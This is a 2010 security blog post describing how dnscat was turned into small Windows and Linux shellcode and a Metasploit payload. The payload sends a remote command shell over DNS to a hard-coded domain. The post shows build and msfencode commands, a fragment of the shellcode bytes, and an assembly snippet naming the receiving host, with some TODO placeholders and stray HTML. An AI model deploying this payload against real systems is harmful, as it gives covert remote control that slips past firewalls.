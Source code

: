 ```yaml
---
id: 615
title: 'Weaponizing dnscat with shellcode and Metasploit'
date: '2010-03-17T20:08:36-05:00'
author: 'Ron Bowes'
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=615'
permalink: '/?p=615'
---
```


Hey all,

I've been letting other projects slip these last couple weeks because I was excited about converting dnscat into shellcode. Even though I got into the security field with reverse engineering and writing hacks for games, I have never written more than a couple lines of x86, nor have I ever written shellcode, so this was a learning experience. Most people start with shellcode that spawns a local shell; I decided to start with shellcode that implements a dnscat client in under 1024 bytes. It's a party!  
  
If you just want to grab the files, here are some links:

- [Win32 shellcode - assembler](/blogdata/dnscat-shell-win32.asm)
- [Win32 shellcode - binary](/blogdata/dnscat-shell-win32)
- [Win32 shellcode - C array](/blogdata/dnscat-shell-win32.h)
- [Win32 Metasploit module](/blogdata/dnscat-shell-win32.rb)
- [Linux shellcode - assembler](/blogdata/dnscat-shell-linux.asm)
- [Linux shellcode - binary](/blogdata/dnscat-shell-linux)
- [Linux shellcode - C array](/blogdata/dnscat-shell-Linux.h)

If you want to get your hands dirty, you can compile the source -- right now, it's only in svn:

```
svn co http://svn.skullsecurity.org:81/ron/security/nbtool
cd nbtool
make
```

That'll compile both dnscat (the client + server) and, if you have nasm installed, the Linux and Windows shellcodes. On Windows, you'll need nasm to assemble it (I used Cygwin) -- you can compile the Windows shellcode on Linux and vice versa, though. The output will be in samples/shellcode-\*/. A .h file containing the C version will be generated, as well:

```
$ head -n3 dnscat-shell-test.h
char shellcode[] =
        "\xe9\xa2\x01\x00\x00\x5d\x81\xec\x00\x04\x00\x00\xe8\x4e\x03\x00"
        "\x00\x31\xdb\x80\xc3\x09\x89\xef\xe8\x2e\x03\x00\x00\x80\xc3\x06"
...
```

And, of course, the raw file is output (without an extension), that can be run through msfencode or embedded into a script:

```
 $ make
[...]
$ wc -c samples/shellcode-win32/dnscat-shell-win32
997 samples/shellcode-win32/dnscat-shell-win32
$ wc -c samples/shellcode-linux/dnscat-shell-linux
988 samples/shellcode-linux/dnscat-shell-linux
```

Unless you want to be sending your cmd.exe (or sh) shell to skullseclabs.org, you'll have to modify the domain as well -- the very last line in the assembly code for both Windows and Linux is this:

```
get_domain:
 call get_domain_top
 db 1, 'a' ; random
 db 12,'skullseclabs' ; 
<p>The two lines with the domain have to be changed. The number preceding the name is, as the comment says, the length of the section ('skullseclabs' is 12 bytes, and 'org' is 3 bytes). This process is automated with the Metasploit payload, as you'll see. </p>
<h2>Encoding with msfencode</h2>
<p>msfencode from the Metasploit project is a beautiful utility. I highly recommend running shellcode through it before using it. The most useful aspect with shellcode is, at least to me, the ability to eliminate characters. So, if I need to get rid of \x00 (null) characters from my strings, it's as easy as:</p>
$ msfencode -b "\x00"  dnscat-shell-win32-encoded
[*] x86/shikata_ga_nai succeeded with size 1024 (iteration=1)

<p>If you're planning on using this in, for example, Metasploit, you don't have to worry about the msfencode step -- it'll do that for you. </p>
<h2>Metasploit payload</h2>
<p>Speaking of metasploit, yes! I wrote a metasploit payload for dnscat. </p>
<p>First, there are a number of caveats:</p>
```

- This is highly experimental
- This doesn't have a proper "exitfunc" call -- it just returns and probably crashes the system
- This is set up as a single stage, and is 1000 or so bytes -- as a result, it won't work against most vulnerabilities

That being said, it also works great when it's usable. The target I use for testing is Icecast 2 (TODO), which is included on the SANS 560 and 504 CDs. It's free, GPL, reliable, and has 2000 bytes in which to stuff the payload.

To use this, download the payload module (TODO: link), put it in your metasploit directory (modules/payloads/singles/windows), and use:

```
use exploit/windows/http/icecast2_host (TODO);
etc.
```

## Why bother?

The big advantage to this over traditional shellcode is that no port, whether inbound or outbound, is required! As long as the server has a DNS server set that will perform recursive lookups, it'll work great!

## Feedback

As I said, this is the first time I've ever written shellcode or x86. I'm sure there are lots of places where it could be significantly improved, and I'd love to hear feedback from the folks who really know what they're doing and can help me improve my code.

Thanks!